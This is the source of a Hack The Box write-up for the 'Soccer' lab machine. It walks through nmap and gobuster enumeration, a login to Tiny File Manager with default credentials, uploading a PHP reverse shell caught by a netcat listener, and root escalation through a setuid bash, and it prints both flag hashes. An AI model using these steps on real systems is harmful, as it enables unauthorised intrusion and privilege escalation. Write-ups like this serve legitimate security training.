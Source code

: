 ```yaml
---
title: "HTB Writeup: Soccer"
slug: "Soccer"
date: 2023-04-09T11:50:42-04:00
draft: false     
summary: "Writeup for Hack The Box – [Soccer](https://app.hackthebox.com/machines/519)"     
description: "Writeup for Hack The Box – Soccer" 
categories: ["htb"] 
tags: ["tiny"]       
keywords: ["htb","hackthebox","writeup", "Soccer"]  
cover:
    image: "images/Soccer.png"
---
```


### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Sun Apr  9 11:53:01 2023 as: nmap -sC -sV -oA nmap/soccer -T4 10.10.11.194
Nmap scan report for 10.10.11.194
Host is up (0.019s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sun, 09 Apr 2023 15:53:13 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sun, 09 Apr 2023 15:53:13 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.92%I=7%D=4/9%Time=6432DF64%P=x86_64-pc-linux-gnu%r(inf
SF:ormix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
SF:n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\n
SF:Content-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
SF:tent-Length:\x20139\r\nDate:\x20Sun,\x2009\x20Apr\x202023\x2015:53:13\x
SF:20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
SF:\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</h
SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
SF:\nDate:\x20Sun,\x2009\x20Apr\x202023\x2015:53:13\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Sun,\x
SF:2009\x20Apr\x202023\x2015:53:13\x20GMT\r\nConnection:\x20close\r\n\r\n<
SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  9 11:53:20 2023 -- 1 IP address (1 host up) scanned in 18.99 seconds
```


### gobuster
#### subdirectories
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/soccer]
└─$ sudo gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -o gobuster/subdirectories.out -z
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/04/09 11:55:47 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
===============================================================
2023/04/09 11:56:31 Finished
===============================================================
```
Found `/tiny` directory.

### vhost
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/soccer]
└─$ sudo gobuster vhost -u http://soccer.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -z -o gobuster/vhost.out
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://soccer.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.2.0-dev
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2023/04/09 11:57:13 Starting gobuster in VHOST enumeration mode
===============================================================
===============================================================
2023/04/09 11:57:23 Finished
===============================================================
```
Nothing here.

### http
After a quick glance at the `html` of the hosted website, there seems to be nothing really here other than the login page of `/tiny`. `Wappalyzer` shows some of the used technologies:

![wappalyzer](images/wapp.i.png)

After a bit of digging, I found [this link](https://github.com/prasathmani/tinyfilemanager) which listed some default logins:

```txt
admin:admin@123
user:12345
```

Both creds worked!

![tiny](images/tiny.png)

While I was digging, I noticed `Tiny File Manager 2.4.3` was vulnerable. After logging in, I got the confirmation that this was, in fact, the vulnerable version.

### CVE-2021-45010
I tried to get [this POC](https://github.com/febinrev/CVE-2021-45010-TinyFileManager-Exploit) to work, but I was unable to. 

Instead, I uploaded a rev shell from [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

![rev](images/rev.png)

```sh 
┌──(kali㉿kali)-[~/htb/soccer]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.194] 59904
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 23:14:57 up  1:34,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

### privesc
From here, I ran `linpeas.sh` to see how to get to get to the `player` or `root` user. I noticed right away that `/usr/bin/bash` had the `SETUID` bit already, so all I had to do to get `root` was run:

```sh
$ /usr/bin/bash -p
whoami
root
```

Profit.

### Flag
**user.txt:** `7acd46137be252c987b73b6d702c3f92`

**root.txt:** `336175fd3a440ac7670fc0d47581331e`